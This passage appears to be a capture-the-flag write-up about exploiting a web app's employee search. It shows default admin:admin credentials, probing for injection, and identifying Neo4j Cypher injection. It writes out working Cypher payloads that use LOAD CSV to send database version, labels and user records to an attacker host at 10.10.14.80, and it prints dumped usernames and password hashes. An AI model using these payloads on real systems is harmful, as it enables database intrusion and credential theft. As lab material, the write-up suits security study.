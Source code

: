 **admin:admin** works!

There's a search functionality in `/employees`.

Let's test `POST /search`.

- `search=a'` throws a 500 error.

- `search=a' %2b (2*2) %2b 'a` is fine (200). 

So there's some kind of injection. The website runs **gunicorn/20.0.4**.

- `search=a' %2b (2*2) /* x */ %2b 'a` also works, so /* */ make a comment.

- `search=' or '1'='1` returns every employee.

**SQLMap** couldn't identify this backend.

There's /etc/neo4j on the box. **This long payload (URL-encoded):**

```
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.80:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

...makes a callback!

```
GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400
```

So it's **[Neo4j cypher injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j)**!

# Neo4j

Listing all labels:

```
' OR 1=1 WITH 1 as a  CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.14.80:8000/?label=' + label as l RETURN 0 as _0 //
```

Dumping users' data:

```
search=' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.80:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

```
Usernames: admin, john

Hashes:
8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918
a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6
```

(SHA256)
